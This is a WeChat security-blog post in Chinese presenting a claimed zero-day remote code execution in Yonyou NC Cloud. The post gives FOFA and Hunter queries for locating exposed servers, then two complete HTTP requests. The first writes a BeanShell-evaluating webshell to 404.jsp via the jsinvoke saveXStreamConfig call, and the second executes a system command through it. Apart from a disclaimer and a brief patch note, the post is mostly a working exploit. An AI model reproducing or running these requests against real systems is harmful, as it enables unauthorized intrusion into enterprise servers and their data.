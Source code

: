 #  0day！！！用友-NC-Cloud远程代码执行漏洞（全版本通杀）

原创 day哥  [ 月落安全 ](javascript:void\(0\);)

**月落安全** ![]()

微信号 gh_48da38d0bfb5

功能介绍 不定时分享红队实战技巧，最新漏洞利用技巧，红队好用的工具，网安界的趣闻，欢迎加入月落星沉研究室一起交流学习

____

___发表于_

收录于合集 #漏洞 6个

**免责 声明  
**

**月落星沉研究室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他违法行为！！！**  

     说句题外话，这个漏洞我们day哥在去年国护的时候就已经发现了，这来自我们团队day哥的分享，大家多关注月落安全，粉丝越多day哥的创作激情就越澎湃。本公众号会不定时分享红队实战技巧，最新漏洞利用技巧，红队好用的工具，网安界的趣闻，欢迎加入月落星沉研究室一起交流学习。 **0x01漏洞介绍**  
  

    用友NC Cloud大型企业数字化平台，深度应用新一代数字智能技术，完全基于云原生架构，打造开放、互联、融合、智能的一体化云平台，聚焦数智化管理、数智化经营、数智化商业等三大企业数智化转型战略方向，提供涵盖数字营销、财务共享、全球司库、智能制造、敏捷供应链、人才管理、智慧协同等18大解决方案，帮助大型企业全面落地数智化。

     该远程代码执行漏洞可以通过特定接口上传文件，通过上传的webshell执行命令，目前全版本通杀

![]()  
 **0x02资产测绘**  
  

  *   * 

    
    
     FOFA:app="用友-NC-Cloud"Hunter：web.body="uap/rbac"

  

  

![]()  
 **0x03漏洞复现**  
  

  
![]()  

 **  Poc1 上传木马**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /uapjs/jsinvoke/?action=invoke HTTP/1.1Host: ip:portCache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: cookiets=1681785470496; JSESSIONID=33989F450B1EA57D4D3ED07A343770FF.serverIf-None-Match: W/"1571-1589211696000"If-Modified-Since: Mon, 11 May 2020 15:41:36 GMTConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 247  
    {"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/404.jsp"]}

![]()

 **   Poc2 执行命令**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /404.jsp?error=bsh.Interpreter HTTP/1.1Host: ip:protCache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Cookie: cookiets=1681785470496; JSESSIONID=33989F450B1EA57D4D3ED07A343770FF.serverIf-None-Match: W/"1571-1589211696000"If-Modified-Since: Mon, 11 May 2020 15:41:36 GMTConnection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 96  
    cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream())

![]()  

![]()  
  
 **0x04修复建议**  
  

  
1.官方已经发布修复补丁，请进行升级。2.或者进行waf等安全部署拦截恶意字符  

  

本文由月落星沉团队编写，欢迎各位网安工程师加入月落安全研究实验室，一起学习交流讨论！群聊已满的添加Vx：linjialelovejesus，备注进群。（已加入一二三四五群的无需重复加群）  

  
  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

